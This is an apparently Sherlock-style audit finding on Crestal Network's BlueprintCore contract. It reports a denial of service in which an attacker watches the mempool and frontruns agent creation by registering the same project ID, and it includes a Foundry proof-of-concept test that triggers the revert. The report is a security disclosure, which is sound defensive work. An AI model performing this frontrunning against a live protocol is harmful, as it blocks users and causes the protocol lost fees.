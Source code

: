 Dancing Hotpink Tortoise

High

# DoS in agent creation due to frontruning and creating projects with the same ID

### Summary

A missing management of a situation where the project already exists when users try to create a new Agent leads to a DOS as attacker can benefit from this and frontrun anyone that try to create a new agent and simply create a project with the same ProjectID.

### Root Cause

In [BlueprintCore.sol#](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L427-L477) the function `createAgent()` call the `createCommonProjectIDAndDeploymentRequest()` to create a new Agent. However, this function revert if the project id submited already exists.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1. bob send a transaction to create a new agent.
2. attacker listen in the mempool and see bob's transaction and the projectId
3. attacker frontrun bob's transaction and call `createProjectIDAndProposalRequest()` with the same projectID

### Impact

an attacker can DOS the protocol by continously calling `createProjectIDAndProposalRequest()` (which cost nothing) with the same ProjectId submited when a new agent is getting created. This will cost fund loss, as the protocol will not benefit from creating agents costs.

### PoC

This test will revert due to project already exists.
```solidity
    function test_DosInCreateAgentWithAlreadyCreatedProjects() public {
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        bytes32 projectId3 = bytes32("3");

        address bob = address(1);
        address alice = address(2);
        mockToken.mint(bob,10000);
        vm.prank(bob);
        mockToken.approve(address(blueprint),100);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // set zero cost for create agents, use any number less than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), 10);

        vm.prank(alice);
        blueprint.createProjectIDAndProposalRequest(projectId3, "base64RecParam", "serverURL");
        // Create agent with token
        vm.prank(bob);
        blueprint.createAgentWithToken(
            projectId3, base64Proposal, workerAddress, serverURL, address(mockToken)
        );
    }
```

### Mitigation

_No response_